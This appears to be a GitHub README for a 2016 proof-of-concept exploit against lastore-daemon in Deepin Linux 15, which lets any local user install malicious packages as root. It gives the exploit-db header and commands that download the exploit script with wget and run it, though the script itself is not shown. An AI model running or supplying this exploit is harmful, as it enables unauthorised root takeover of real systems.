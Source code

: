 # privilege escalation POC for deepin 15

## Vulnerability Description
* In Deepin Linux 15.1, they designed a daemon (called lastore-daemon) based on dbus and apt to support deepin-appstore.
* Lastore-daemon runs with root privilege to run apt-get commands and listens  to dbus message from every user.
* So, we can send the package name along with some options to lastore-daemon to install or remove any package, even to destroy the host system.
* Apart from that, if we prepare a malicious package and try to cheat lastore-daemon into installing it, then anyone can have root privilege.



## Header for [exploit-db](https://www.exploit-db.com/exploits/39433/)
		Exploit Title: Lastore-daemon in Deepin 15 results in privilege escalation
 		Date: 20160208
 		Exploit Author: King's Way <root#kings-way.info>
	 	Vendor Homepage: http://www.deepin.org
		Software Link: http://cdimage.linuxdeepin.com/releases/15.1/deepin-15.1-amd64.iso
		Version: Deepin 15 & 15.1
 		Tested on: Deepin 15 & 15.1
 		CVE : null

## Ps
Hex data of the homemade package have been written in a single python file, thus all you need to do is:
	
	$ wget https://raw.githubusercontent.com/kings-way/deepinhack/master/deepinhack.py -O  /tmp/deepinhack.py
	
	$ python /tmp/deepinhack.py

Of course, the deb package and the initial python code have been uploaded too.
